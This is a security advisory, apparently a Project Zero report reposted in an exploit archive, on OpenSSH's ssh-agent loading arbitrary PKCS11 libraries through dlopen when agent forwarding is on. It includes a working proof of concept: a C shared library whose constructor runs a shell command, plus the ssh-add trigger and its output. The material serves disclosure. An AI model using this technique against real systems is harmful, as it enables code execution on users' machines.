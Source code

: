 EXP
---

    Source: https://bugs.chromium.org/p/project-zero/issues/detail?id=1009

    The OpenSSH agent permits its clients to load PKCS11 providers using the commands SSH_AGENTC_ADD_SMARTCARD_KEY and SSH_AGENTC_ADD_SMARTCARD_KEY_CONSTRAINED if OpenSSH was compiled with the ENABLE_PKCS11 flag (normally enabled) and the agent isn't locked. For these commands, the client has to specify a provider name. The agent passes this provider name to a subprocess (via ssh-agent.c:process_add_smartcard_key -> ssh-pkcs11-client.c:pkcs11_add_provider -> ssh-pkcs11-client.c:send_msg), and the subprocess receives it and passes it to dlopen() (via ssh-pkcs11-helper.c:process -> ssh-pkcs11-helper.c:process_add -> ssh-pkcs11.c:pkcs11_add_provider -> dlopen). No checks are performed on the provider name, apart from testing whether that provider is already loaded.

    This means that, if a user connects to a malicious SSH server with agent forwarding enabled and the malicious server has the ability to place a file with attacker-controlled contents in the victim's filesystem, the SSH server can execute code on the user's machine.

    To reproduce the issue, first create a library that executes some command when it is loaded:

    $ cat evil_lib.c
    #include <stdlib.h>
    __attribute__((constructor)) static void run(void) {
      // in case you're loading this via LD_PRELOAD or LD_LIBRARY_PATH,
      // prevent recursion through system()
      unsetenv("LD_PRELOAD");
      unsetenv("LD_LIBRARY_PATH");
      system("id > /tmp/test");
    }
    $ gcc -shared -o evil_lib.so evil_lib.c -fPIC -Wall

    Connect to another machine using "ssh -A". Then, on the remote machine:

    $ ssh-add -s [...]/evil_lib.so
    Enter passphrase for PKCS#11: [just press enter here]
    SSH_AGENT_FAILURE
    Could not add card: [...]/evil_lib.so

    At this point, the command "id > /tmp/test" has been executed on the machine running the ssh agent:

    $ cat /tmp/test
    uid=1000(user) gid=1000(user) groups=[...]


    Fixed in http://cvsweb.openbsd.org/cgi-bin/cvsweb/src/usr.bin/ssh/ssh-agent.c.diff?r1=1.214&r2=1.215&f=h
